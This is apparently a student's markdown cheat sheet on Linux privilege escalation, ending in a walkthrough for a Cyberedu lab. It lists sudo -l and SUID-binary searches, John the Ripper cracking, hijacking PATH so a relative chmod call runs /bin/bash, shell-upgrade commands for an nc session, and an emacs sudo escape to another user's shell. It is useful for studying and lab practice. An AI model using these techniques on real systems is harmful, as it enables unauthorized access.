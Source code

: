 <style>
    code{
    background-color: rgba(245, 178, 34, 0.5)
    }
</style>
# PRIVILEGE ESCALATION FOR BEGGINERS

1. Check if you can crack a password using `johntheripper`
2. Check the `sudo permissions` with: `sudo -l`
3. Check the `suid executables` and their functions with strings or other methods. ` find / -perm -4000 2>/dev/null `
4. If a `method calls an executable without the absolute path`, the `PATH ORDER` can be modified. 
> ex: chmod instead of /bin/chmod 

    -> that means that you can just add a chmod file in the tmp/.secret directory, add the tmp/.secret directory in the path before any other paths. So then this will be executed first -> it will execute /bin/bash for example.

### Tips n Tricks
    
    To create a nice shell do: python3 -c 'import pty; pty.spawn("/bin/bash")'

#
    Sudo -l tells you what commands can the currently logged in user execute as WHICH OTHER USER
    ex: user2 can execute vim as user3

#
    Create a fully interactive shell
    python3 -c 'import pty; pty.spawn("/bin/bash")'

    (inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
#

### For privilege-escalation v2 on Cyberedu:

- Find the password to a user in the wp config file.
- Then log in as that user
- Do `sudo -l`, find that meriot can execute emacs as tony
Search the exploit for emacs: sudo -u tony emacs -Q -nw --eval '(term "/bin/sh")'
- Then you have shell

- For the last one you just look for the `suid binaries` and find the binary fix, with the same issue that chmod is put with relative path so by manipulating the PATH variables you can actually execute your chmod executable first, that can do even /bin/bash with that specified user, escalating privileges.

